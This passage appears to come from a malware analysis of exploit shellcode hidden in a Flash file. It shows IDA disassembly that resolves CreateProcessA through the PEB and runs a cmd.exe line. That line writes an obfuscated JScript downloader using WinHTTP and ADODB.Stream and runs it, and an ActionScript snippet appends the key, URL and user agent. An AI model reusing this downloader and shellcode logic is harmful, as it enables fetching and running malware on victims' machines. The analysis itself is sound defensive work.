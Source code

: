 The `decrypt_sc.py` script is used to decrypt the shellcode
into `1_shell_rc4_decrypted_2`.

We drop `1_shell_rc4_decrypted_2` into IDA Pro. We get an assembly routine that 
uses the `FS` register to access the 
[PEB](https://en.wikipedia.org/wiki/Win32_Thread_Information_Block#Contents_of_the_TIB_.2832-bit_Windows.29) 
and parses the list of modules to resolve the `CreateProcessA`
address. Finally it writes a Visual Basic Script into a temporary file (`%TMP%\WMD1NF.tmp`) 
and executes it:

```
seg000:0000000B		mov     eax, fs:[eax+30h] 			; get PEB
...
seg000:00000031		cmp     dword ptr [eax], 'aerC' 	; begins with "Crea"
seg000:00000037		jnz     short loc_55
seg000:00000039		cmp     dword ptr [eax+0Bh], 'Ass' 	; ends with "ssA"
...
seg000:00000084		jmp     short prepare_call_CreateProcess
seg000:00000086 call_CreateProcess:
seg000:00000086		push    eax
seg000:00000087		call    ebx
...
seg000:00000093		retn
seg000:00000094 prepare_call_CreateProcess:
seg000:00000094		call    call_CreateProcess	; push aCmd_exeQCCdDTm address into stack
seg000:00000099 aCmd_exeQCCdDTm
seg000:00000099		db 'cmd.exe /q /c cd /d "%tmp%" && echo var i3="WinHTTPZRequest.5.1ZG'
seg000:00000099		db 'ETZScripting.FileSystemObjectZWScript.ShellZADODB.StreamZeroZ.ex"'
seg000:00000099		db ',u=function(i){return i3["\x73p\x6ci\x74"]("\x5a")[i]},li=functio'
...
seg000:00000099		db '4"+p+u(17)+c,0)}catch(hy){}q["De\x6cet\x65\x66ile"](h1);>WMD1NF.t'
seg000:00000099		db 'mp && start wscript //B //E:JScript WMD1NF.tmp "'
```

We look back at `nw22.as` `get_skotina()` which decrypts the shellcode. It actually appends
a few elements to the end of the shellcode above:

```actionscript
// shellcode
_loc4_.writeBytes(_loc6_, 0, _loc6_.length);
// key, url, uas
_loc4_.writeMultiByte(key,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeByte(32); // space
_loc4_.writeByte(34); // "
_loc4_.writeMultiByte(url,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeByte(32); // space
_loc4_.writeByte(34); // "
_loc4_.writeMultiByte(uas,_loc5_);
_loc4_.writeByte(34); // "
_loc4_.writeUnsignedInt(0);
```
